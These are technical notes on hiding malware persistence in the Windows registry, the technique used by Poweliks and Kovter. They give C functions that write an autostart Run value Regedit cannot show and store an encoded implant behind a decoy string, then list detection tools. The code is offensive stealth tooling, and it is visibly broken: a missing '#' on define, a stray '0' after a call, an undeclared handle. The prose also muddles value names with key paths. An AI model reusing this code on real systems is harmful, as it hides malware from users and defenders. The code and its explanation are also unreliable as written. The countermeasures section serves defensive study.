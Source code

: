 # Notes: INVISIBLE PERSISTENCE
## Hiding Registry Entries (Poweliks, Kovter, others)
https://stackoverflow.com/questions/1721106/how-to-hide-a-value-on-the-registry-like-sysinternals-reghide-tool

It is possible to write a value to the Run key that Regedit will fail to display but that Windows will read properly when it checks the Run key after a reboot. 

```sh
// HIDDEN_KEY_LENGTH doesn't matter as long as it is non-zero.
// Length is needed to delete the key

define HIDDEN_KEY_LENGTH 11 
void createHiddenRunKey(const WCHAR* runCmd) { 
	LSTATUS openRet = 0; 
	NTSTATUS setRet = 0; 
	UNICODE_STRING ValueName = { 0 };
	wchar_t runkeyPath[0x100] = L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
	wchar_t runkeyPath_trick[0x100] = L"\0\0SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";

	if (!NtSetValueKey) { 
	HMODULE hNtdll = LoadLibraryA("ntdll.dll")0;
	NtSetValueKey = (_NtSetValueKey)GetProcAddress(hNtdll, "NtSetValueKey"); 
	} 

	ValueName.Buffer = runkeyPath_trick; 
	ValueName.Length = 2 * HIDDEN_KEY_LENGTH;
	ValueName.MaximumLength = 0; 
<break/>
	if (!(openRet = RegOpenKeyExW(HKEY_CURRENT_USER, runkeyPath, 0, KEY_SET_VALUE, &hkResult))) { 
		if (!(setRet = NtSetValueKey(hkResult, &ValueName, 0, REG_SZ, (PVOID)runCmd, wcslen(runCmd) * 2))) 
			printf("SUCCESS setting hidden run value!\n"); 
		else 
			printf("FAILURE setting hidden run value! (setRet == 0x%X, GLE() == %d)\n", setRet, GetLastError());
		RegCloseKey(hkResult); 
	}
	else {
		printf("FAILURE opening RUN key in registry! (openRet == 0x%X, GLE() == %d)\n", openRet, GetLastError()); 
	}
}
```

In the above function, NtSetValueKey is passed the UNICODE_STRING ValueName. ValueName.Buffer would typically be set to “SOFTWARE\Microsoft\Windows\CurrentVersion\Run” to set a value of the Run key. Instead, we prepend this string with two WCHAR NULLs (“\0\0”) so ValueName.Buffer is “\0\0SOFTWARE\Microsoft\Windows\CurrentVersion\Run” 

Another common place to check for programs that auto run at system startup is Task Manager. In more recent versions of Windows the “Startup” tab has been added to Task Manager. The invisible persistence technique does not add an entry to the Task Manager Startup tab. 

<break/><break/>


### FILELESS BINARY STORAGE IN THE REGISTRY

While the invisible Run key technique completely hid the value (at the cost of an error message), this fileless binary technique displays a value, but hides its contents. Just like with the first technique, the contents of the value cannot be exported by Regedit. 
```
// this writes the binary buffer of the encoded implant to the registry as a sting
// according to winnt.h, REG_SZ is "Unicode nul terminated string"
// When the value is exported, only part of the value will actually be exported.

void writeHiddenBuf(char *buf, DWORD buflen, const char *decoy, char *keyName, const char* valueName) {
 HKEY hkResult = NULL;
 BYTE *buf2 = (BYTE*)malloc(buflen + strlen(decoy) + 1);
 strcpy((char*)buf2, decoy);
 buf2[strlen(decoy)] = 0;
 memcpy(buf2 + strlen(decoy) + 1, buf, buflen);
 if (!RegOpenKeyExA(HKEY_CURRENT_USER, keyName, 0, KEY_SET_VALUE, &hkResult))
 {
 printf("Key opened!\n");
 LSTATUS lStatus = RegSetValueExA(hkResult, valueName, 0, REG_SZ, (const BYTE *)buf2, buflen + strlen(decoy) + 1);
 printf("lStatus == %d\n", lStatus);
 RegCloseKey(hkResult);
 }
 free(buf2);
}
void readHiddenBuf(BYTE **buf, DWORD *buflen, const char *decoy, char * keyName, const char* valueName) {
 HKEY hkResult = NULL;
 LONG nError = RegOpenKeyExA(HKEY_CURRENT_USER, keyName, NULL, KEY_ALL_ACCESS, &hkResult);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, NULL, buflen);
 *buf = (BYTE*)malloc(*buflen);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, *buf, buflen);
 RegCloseKey(hkResult);
 *buflen -= (strlen(decoy) + 1);
 BYTE *buf2 = (BYTE*)malloc(*buflen);
 memcpy(buf2, *buf + strlen(decoy) + 1, *buflen);
 free(*buf);
 *buf = buf2;
}
```
First consider writeHiddenBuf. For this example, let decoy be “(value not set)”. The hidden buffer is prepended with “(value not set)\0”. The NULL byte at the end of the string will hide whatever comes after it so that Regedit does not display or export the hidden buffer. So long as RegSetValueExA is passed the length of decoy string + the length of the hidden buffer, it will write the entire buffer to the registry. readHiddenBuf retrieves the hidden buffer from the registry and removes the decoy string from the beginning of it.

The maligned registry entry will display (value not set).  The real data can be viewed if you choose "Modify Binary Data" on the value that has the hidden buffer.


### COUNTERMEASURES

These techniques rely on errors in how Regedit reads and display registry values. Other tools do not have the same errors and can be used to verify the output of Regedit. 

***`Autoruns from Sysinternals`*** , for example, will correctly display the hidden Run key values. 

Forensics tools like ***`FTK Registry Viewer`*** can view the hidden buffers stored in values if a copy is made of the registry hives on disk. 

Because the hive files are in use while Windows is running, use a tool like ***`HoboCopy`*** to make a copy of the hive files. 

***`SysInternals’s RegDelNull`*** scans the registry for entries with embedded NULL bytes and has the option of deleting those entries. 
